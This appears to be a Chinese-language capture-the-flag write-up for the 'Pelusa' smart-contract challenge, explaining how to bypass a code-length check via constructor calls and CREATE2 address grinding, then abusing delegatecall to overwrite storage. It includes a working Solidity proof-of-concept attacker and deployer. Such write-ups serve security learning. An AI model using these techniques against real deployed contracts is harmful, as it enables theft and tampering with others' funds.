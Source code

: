 ## Pelusa

### 目标

修改 `goals` 值为 2

### 分析

合约内并没有修改 `goals` 变量的方法。唯一可以利用的就是 `shoot` 方法内的 `player.delegatecall`, 然后在自己的合约内修改 `goals` 变量值

但是要调用 `shoot` 必须要成为 `player` 且 `player` 需要是一个合约地址。成为 `player` 是必须要调用 `passTheBall`

`passTheBall` 有两个条件

- `msg.sender.code.length == 0`
- `uint256(uint160(msg.sender)) % 100 == 10`

一方面要求合约账户的 `code.length` 为零, 另一方面要求合约地址除以 100 余 10

唯一可行的方式是用 `create2` 与计算出确定的合约地址, 但是不部署合约(在合约的构造函数内调用 `passTheBall`)。

### POC

```solidity
contract PelusaAttacker is IGame {
    address public owner;
    uint256 goals;

    constructor(address _owner, address pelusa) {
        owner = _owner;
        Pelusa(pelusa).passTheBall();
    }

    function getBallPossesion() external view override returns (address) {
        return owner;
    }

    function handOfGod() external returns (uint256) {
        goals = 2;
        return 22_06_1986;
    }
}

contract PelusaAttackerDeployer {
    address public deployment;
    address immutable target;

    constructor(address _target) {
        target = _target;
    }

    function deployAttacker(address _owner, bytes32 _salt) external {
        address addr = address(new PelusaAttacker{salt: _salt}(_owner, target));
        require(uint256(uint160(addr)) % 100 == 10, "bad address");
        deployment = addr;
    }

    function getAttackerAddress(
        address _owner,
        bytes32 _salt,
        address _pelusa
    ) external view returns (address) {
        bytes memory bytecode = abi.encodePacked(
            type(PelusaAttacker).creationCode,
            abi.encode(_owner, _pelusa)
        );
        bytes32 _hash = keccak256(
            abi.encodePacked(hex"ff", address(this), _salt, keccak256(bytecode))
        );
        return address(uint160(uint256(_hash)));
    }
}
```
